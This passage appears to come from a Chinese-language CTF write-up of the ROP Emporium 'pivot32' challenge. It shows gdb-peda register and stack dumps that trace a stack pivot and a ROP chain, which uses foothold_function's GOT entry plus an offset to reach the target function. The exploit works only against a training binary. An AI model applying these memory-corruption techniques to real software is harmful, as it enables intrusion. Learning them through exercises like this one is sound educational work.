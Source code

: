 ```text
[------------------------------------stack-------------------------------------]
0000| 0xffe7ec70 --> 0xf755000a --> 0x0
0004| 0xffe7ec74 --> 0x0
0008| 0xffe7ec78 --> 0x2
0012| 0xffe7ec7c --> 0x0
0016| 0xffe7ec80 --> 0x1
0020| 0xffe7ec84 --> 0xffe7ed44 --> 0xffe808cf ("./pivot32")
0024| 0xffe7ec88 --> 0xf755cf10 --> 0x80485f0 (<foothold_function@plt>: jmp    DWORD PTR ds:0x804a024)
0028| 0xffe7ec8c --> 0xf655d010 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0804889f in pwnme ()
```

EIP=`0x804889f`，同时 ESP+4。

第二次 leave：

```text
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EBX: 0x0
ECX: 0xffe7ec40 ('A' <repeats 40 times>, "\f\317U\367\237\210\004\b\n")
EDX: 0xf7731860 --> 0x0
ESI: 0xf772fe28 --> 0x1d1d30
EDI: 0x0
EBP: 0x0
ESP: 0xf755cf10 --> 0x80485f0 (<foothold_function@plt>: jmp    DWORD PTR ds:0x804a024)
EIP: 0x80488a0 (<pwnme+174>:    ret)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804889b <pwnme+169>:       add    esp,0x10
   0x804889e <pwnme+172>:       nop
   0x804889f <pwnme+173>:       leave  
=> 0x80488a0 <pwnme+174>:       ret
   0x80488a1 <uselessFunction>: push   ebp
   0x80488a2 <uselessFunction+1>:       mov    ebp,esp
   0x80488a4 <uselessFunction+3>:       sub    esp,0x8
   0x80488a7 <uselessFunction+6>:       call   0x80485f0 <foothold_function@plt>
[------------------------------------stack-------------------------------------]
0000| 0xf755cf10 --> 0x80485f0 (<foothold_function@plt>:        jmp    DWORD PTR ds:0x804a024)
0004| 0xf755cf14 --> 0x80488c0 (<usefulGadgets>:        pop    eax)
0008| 0xf755cf18 --> 0x804a024 --> 0x80485f6 (<foothold_function@plt+6>:        push   0x30)
0012| 0xf755cf1c --> 0x80488c4 (<usefulGadgets+4>:      mov    eax,DWORD PTR [eax])
0016| 0xf755cf20 --> 0x8048571 (<_init+33>:     pop    ebx)
0020| 0xf755cf24 --> 0x1f7
0024| 0xf755cf28 --> 0x80488c7 (<usefulGadgets+7>:      add    eax,ebx)
0028| 0xf755cf2c --> 0x80486a3 (<deregister_tm_clones+35>:      call   eax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080488a0 in pwnme ()
gdb-peda$ x/10w 0xf755cf10
0xf755cf10:     0x080485f0      0x080488c0      0x0804a024      0x080488c4
0xf755cf20:     0x08048571      0x000001f7      0x080488c7      0x080486a3
0xf755cf30:     0x0000000a      0x00000000
```
